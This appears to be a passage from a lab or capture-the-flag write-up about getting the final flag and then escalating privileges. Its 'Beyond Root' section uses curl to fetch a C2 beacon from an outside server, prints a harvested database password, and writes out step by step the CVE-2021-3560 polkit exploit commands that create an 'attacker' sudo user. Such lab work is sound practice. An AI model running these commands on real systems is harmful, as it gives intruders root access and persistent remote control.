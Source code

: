 Sad there was no cool webshell to add to my collection... 
![](iwouldhavelikeacoolwebshellbutallIgotwasthisecho.png)

We need to 
![](morepasswords.png)
These do not work for `/phpmyadmin/`, but all we *need* to do is  run for the final flag:
```bash
php renamed_file_manager.php
```

## Beyond Root

#### Infiltration 

```bash
# Cheack if we can run in memory
mount | grep shm
cd /dev/shm
# pack beacon with `upx $silverBeacon` 1/3 less size of beacon
curl $yourserver:$port/$sliverBeacon -o $sliverBeacon
```

Linpeas.sh got us

```php
// CRedentials
$dbpass='pN7JqRufUDZh';
$dbuser='phpmyadmin';
```

- CVE-2021-3560 

Polkit - I needed to finish the https://tryhackme.com/room/polkit room and update my notes. 

Exploitation Steps:
```bash
# Time the creation of a new user 
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
# Race condition to kill command half way through execution to create new user and add to sudo group
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.003s; kill $! && id attacker
# Check user has been created
id attacker
# Password hash creation for the hash used below 
openssl passwd -6 Expl01ted
# Set the password hash - beware of the UID of the newly created user in required in the fllow command
UID="insert the affective user id for the newly created user in the command below"
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.004s; kill $!
```
